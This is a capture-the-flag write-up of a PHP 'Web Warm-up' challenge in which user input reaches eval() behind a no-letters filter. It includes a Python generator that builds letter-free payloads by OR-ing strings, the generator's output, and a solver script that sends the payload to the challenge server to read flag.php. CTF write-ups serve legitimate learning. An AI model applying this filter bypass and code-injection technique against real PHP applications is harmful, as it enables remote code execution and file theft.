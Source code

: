 ## Web Warm-up
The main idea finding the flag is to find the flag using PHP injections.

#### Step-1:

We are given a URL [http://69.90.132.196:5003/?view-source](http://69.90.132.196:5003/?view-source) which greets us with this PHP script. We want to get contents of a file `flag.php` in this task.

The PHP script is as follows:
```php
<?php
if(isset($_GET['view-source'])){
    highlight_file(__FILE__);
    die();
}

if(isset($_GET['warmup'])){
    if(!preg_match('/[A-Za-z]/is',$_GET['warmup']) && strlen($_GET['warmup']) <= 60) {
    eval($_GET['warmup']);
    }else{
        die("Try harder!");
    }
}else{
    die("No param given");
}
?>
```
#### Step-2:
The PHP code is executed and when `eval()` function is execute, the parameter which we need to take care is `warmup`.

We can send this payload as `warmup`, but written as some operation of 2 strings that don't use any alphabets.

#### Step-3:

The following `Gen.py` will help to generate such payloads.

```py
#!/usr/bin/env python
from rich import print
import string

pay = "readfile('flag.php');"
w = {c:[] for c in pay}
cand = '0123456789!#$%&()*+,-./:;<=>?@[]^_`{|}~"\''
for c in cand:
    if c not in string.ascii_letters:
        for d in cand:
            if d not in string.ascii_letters:
                f = chr(ord(c)|ord(d))
                if f in w and not w[f]:
                    w[f].append((c, d))

print(w)
one = []
two = []
for c in pay:
    one.append(w[c][0][0])
    two.append(w[c][0][1])
print(f'"{"".join(one)}"|"{"".join(two)}"')
```

#### Step-4:

When we execute it in terminal using `python3 Gen.py` we obtain the following result:

```json
{
    "'": [('!', '&')],
    '(': [('(', '(')],
    ')': [('!', '(')],
    '.': [('$', '*')],
    ';': [('0', '+')],
    'a': [('!', '@')],
    'd': [('$', '@')],
    'e': [('%', '@')],
    'f': [('&', '@')],
    'g': [('@', "'")],
    'h': [('(', '@')],
    'i': [(')', '@')],
    'l': [(',', '@')],
    'p': [('0', '@')],
    'r': [('2', '@')],
}
"2%!$&),%(!&,!@$0(0!!0"|"@@@@@@@@(&@@@'*@@@&(+"
```
The last line is our payload.

#### Step-5:
Next we use our final `Solution.py` to get the flag.

The code for `Solution.py` would be as follows:

```py
#!/usr/bin/env python

import requests

url = 'http://69.90.132.196:5003/'
payl = {
    'warmup': r"""
("2%!$&),%"|"@@@@@@@@")("&,!@$0(0"|"@@@'*@@@"); #Payloads produced before inserted here.
""".strip()
}
r = requests.get(url, params=payl)
print(r.text.split('"')[1])
```
#### Step-6:
Finally when we execute this by `python3 Solution.py` we get the flag.


#### Step-7:
Finally, the flag is:
`ASIS{w4rm_up_y0ur_br4in}`

###### Definitely, not a Warm Up xD. 
